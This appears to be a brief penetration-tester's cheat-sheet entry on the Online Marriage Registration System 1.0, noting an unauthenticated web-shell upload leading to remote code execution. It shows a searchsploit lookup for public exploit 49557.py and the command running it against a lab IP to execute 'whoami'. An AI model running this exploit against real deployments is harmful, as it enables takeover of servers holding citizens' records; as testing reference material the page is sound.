 # OMRS

## 101

The Online Marriage Registration System (OMRS) is a **web-based application designed to simplify and digitize the marriage registration process**. It allows users to submit applications, upload documents, and track status online. Typically used by local government or civil service departments.

## Attacks

OMRS `1.0` allows unauthenticated users to register, upload a PHP web shell, and achieve RCE:\
**Exploit (49557.py):**

{% code overflow="wrap" %}
```bash
# Search for a PoC
$ searchsploit OMRS
Online Marriage Registration System (OMRS) 1.0 - Remote code execution (3) | php/webapps/49557.py

# Exploit
$ python3 49557.py -u http://172.16.1.10:80/ -c 'whoami'
```
{% endcode %}
